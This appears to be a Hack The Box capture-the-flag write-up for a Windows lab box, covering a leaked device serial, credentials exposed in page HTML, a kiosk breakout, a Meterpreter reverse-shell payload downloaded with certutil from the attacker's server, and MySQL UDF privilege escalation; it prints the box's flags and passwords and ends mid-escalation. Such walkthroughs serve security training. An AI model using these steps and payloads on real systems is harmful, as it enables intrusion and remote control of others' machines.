# Touch

**HTB Season 12, Special Season: Aero — Easy, Windows**

| | |
|---|---|
| **OS** | Windows 11 24H2 (Build 26100) |
| **Difficulty** | Easy |
| **User flag** | `99ea69e35c1902bd3950495a0cb25862` |
| **Root flag** | `4882542bb89ad3003e07c8e10aff2e04` |

> This box picks up directly from **Layover**: that machine leaked a name and a booking confirmation code — **Jenny Crawford / KS7X2M** — which turn out to be the booking details used on Touch's kiosk later in the chain. The target IP changed a few times across resets during this session; commands below use `<TARGET_IP>` as a placeholder.

## 1. Reconnaissance

A standard service scan against the target showed four open ports:

```
nmap -sC -sV -A -O -T4 <TARGET_IP>

135/tcp  open  msrpc        Microsoft Windows RPC
3389/tcp open  ms-wbt-server Microsoft Terminal Service
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
8443/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-cors: GET POST PUT OPTIONS
| http-title: Nexion DeviceHub - Login
|_Requested resource was /login
```



RPC and RDP aren't useful without credentials, and 5985 (WinRM) returned nothing on its own, so the interesting surface was port 8443 — a login portal for a fictional product called **Nexion DeviceHub** (confirmed there's no real vendor/CVE behind the name — it's custom to this box).



The page is a device login for a "DeviceHub DH-100 — Gate B7" kiosk component, with a device-password field and a "Scan Staff Badge" button. Hovering "Forgot your password?" reveals a hint: **the default password is the device serial number from the DeviceHub packaging.**

### 1.1 Directory enumeration

```
feroxbuster -u https://<TARGET_IP>:8443 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -k -t 50
```

```
200   GET   /login
200   GET   /favicon.svg
200   GET   /css/style.css
403   GET   /api
```

`/api` returning 403 instead of 404 meant the route exists but is rejecting the request — worth pursuing. A follow-up directory scan under `/api` and a `.js`-extension scan for client bundles turned up nothing further, and manually guessing dashboard-style paths (`/dashboard`, `/devices`, `/logs`, `/staff`, `/status`) all 302'd identically to `/login`, meaning the server treats every non-existent path the same way — those guesses weren't distinguishable from noise.

Digging into the `/login` page's own JavaScript and intercepting the "Scan Staff Badge" button in Burp showed it just does an empty `POST /login/badge` and reads back `success: true/false` — no badge data is ever sent client-side. Trying the Jenny Crawford / KS7X2M booking details as Basic Auth or Bearer tokens against `/api` only ever returned `"error":"Authentication required"`. This whole badge/API-auth angle turned out to be a dead end — the actual way in was a plain unauthenticated **GET**, not a crafted POST.

### 1.2 Unauthenticated status endpoint

```
curl -v http://<TARGET_IP>:8443/api/status
```

```
{"device":"Nexion DeviceHub DH-100","serial":"NX-DH-2024-B7042","firmware":"1.4.2","status":"online","uptime":65620}
```



No authentication required, and it leaks the device serial number — exactly what the login hint said the default password is.

## 2. Initial Foothold

### 2.1 Logging into DeviceHub

Using the leaked serial `NX-DH-2024-B7042` as the device password on `/login` dropped straight into the DeviceHub dashboard — device cards for a Passport Scanner and a Boarding Pass Printer, each with a masked Username/Password field and a "show" toggle.



### 2.2 Exposed Windows credentials

Opening the browser's dev tools Network tab before clicking "show" confirmed it fires **zero requests** — the credentials are already sitting in the page's client-side HTML, just visually hidden. Inspecting the element (or just reading the DOM after the toggle) reveals them directly:

```
Username: KioskUser
Password: K!0sk2026#
```



### 2.3 RDP access and the airline kiosk

```
xfreerdp /u:KioskUser /p:'K!0sk2026#' /v:<TARGET_IP> /cert:ignore
```

RDP doesn't land on a normal desktop — it drops straight into a locked-down, fullscreen "HTB Airways" self-check-in kiosk.



### 2.4 Working the kiosk flow

Picking a language and using **Lookup → Booking Ref** with the Layover clue (`KS7X2M` / `Crawford`) found the booking and moved into document verification.




Clicking "Scan Passport" here just produces a generic "Scanner could not read your document" error — there's no physical scanner, so this looked like a dead end at first.

### 2.5 Forcing a more useful error

The DeviceHub dashboard has power controls for the Scanner device. Powering it **off** from there and retrying the kiosk's scan produces a different, more specific error — the actual device driver throwing an exception with a clickable troubleshooting link.




### 2.6 Breaking out of the kiosk

Clicking that link spawns a real browser window outside the kiosk's locked shell. From there, **Ctrl+O** (Open File) brings up a native Windows file picker. Typing a path directly into the filename bar and opening it downloads and runs that binary:

```
C:\Windows\System32\cmd.exe
```

This lands an interactive `cmd.exe` as `KIOSK-042\KioskUser`.

### 2.7 User flag

```
whoami
> kiosk-042\kioskuser

cd Desktop
type user.txt
> 99ea69e35c1902bd3950495a0cb25862
```



## 3. Upgrading the Shell

The downloaded `cmd.exe` has no clipboard and is generally clunky, so a Meterpreter payload was staged for a proper interactive session.

```
# Kali
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI_IP> LPORT=4445 -f exe -o shell.exe
python3 -m http.server 8000
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST <KALI_IP>; set LPORT 4445; exploit"
```

```
# Target (via the downloaded cmd.exe)
certutil -urlcache -split -f http://<KALI_IP>:8000/shell.exe shell.exe
shell.exe
```

This catches a Meterpreter session as `KIOSK-042\KioskUser`.



`post/multi/recon/local_exploit_suggester` flagged a handful of UAC-bypass modules, but these are dead ends — KioskUser isn't a local admin (only Printer Administrators and Remote Desktop Users), so UAC bypass doesn't apply here.

## 4. Locating and Reading the Application Source

Filesystem enumeration from a dropped `shell` shows the real stack behind the kiosk:

```
C:\Program Files\HTB Airways\Kiosk\         - Node/Express/React kiosk app
C:\Program Files\Nexion Systems\DocReader\  - .NET DeviceHub backend (port 8443)
C:\MySQL\                                    - local MySQL Server 8.0
```

Reading the backend's DB connector off disk with `type` reveals hardcoded fallback MySQL credentials:

```
type "C:\Program Files\HTB Airways\Kiosk\packages\backend\src\database\index.ts"
```



```
host: 127.0.0.1   port: 3306
user: kiosk_app   password: K!0sk_R3pl1ca#DB
database: htb_airways
```

## 5. Privilege Escalation

### 5.1 Checking what `kiosk_app` can do

```
mysql -u kiosk_app -p"K!0sk_R3pl1ca#DB" -h 127.0.0.1 -e "SELECT user, host, Grant_priv, File_priv FROM mysql.user;"
```



`kiosk_app` only has rights on its own database — no `FILE_priv`, which rules out UDF hijacking with this account. `root` does have it, so the next step was finding root's password.

### 5.2 Finding the MySQL root password

A blind `root` login with no password failed outright, so the search moved to config files and scheduled scripts near the kiosk's DB config:

```
dir "C:\ProgramData\HTB Airways" /s /b
type "C:\ProgramData\HTB Airways\refresh-dates.bat"
```

A scheduled maintenance script (`refresh-dates.bat`) calls `mysql.exe` directly with the root password in plaintext on the command line:



```
HTB@irw4ys_DB!2026
```

### 5.3 MySQL UDF hijacking

With root's password in hand, the plugin directory's permissions were worth checking before attempting a UDF upload:

```
icacls "C:\MySQL\lib\plugin"
```



`NT AUTHORITY\Authenticated Users` has **Modify** rights, and `KioskUser` is a member of that group — so the plugin directory is writable. `secure_file_priv` is set to `NULL`, which blocks the usual SQL `INTO OUTFILE` trick, but the existing Meterpreter session already has filesystem access, so the UDF DLL was uploaded directly instead of through MySQL:

```
upload /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll "C:\\MySQL\\lib\\plugin\\lib_mysqludf_sys_64.dll"

C:\MySQL\bin\mysql.exe -u root -p"HTB@irw4ys_DB!2026" -e "CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys_64.dll';"
```

